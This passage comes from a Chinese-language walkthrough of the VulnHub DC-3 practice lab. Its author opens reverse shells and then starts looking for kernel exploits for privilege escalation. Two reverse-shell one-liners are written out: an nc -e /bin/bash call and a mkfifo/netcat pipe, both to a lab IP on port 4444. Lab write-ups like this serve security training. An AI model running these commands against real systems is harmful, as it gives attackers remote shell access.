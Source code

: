 连上去了,手动在弹个 shell 回来
```bash
nc -nv 192.168.141.134 4444 -e /bin/bash
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC3/17.png)

谜题解开了,这 TM 是 openbad版本的 nc,我不管,老子就是要弹
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.141.134 4444 >/tmp/f
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC3/18.png)

狗日的，还不是被我连上了,改下交互,查看版本
```bash
lsb_release -a
uname -a
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC3/14.png)

---

# 后期-提权

使用 searchsploit 找找这个版本的漏洞
```bash
searchsploit -w ubuntu 16.04 4.4.x
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC3/16.png)
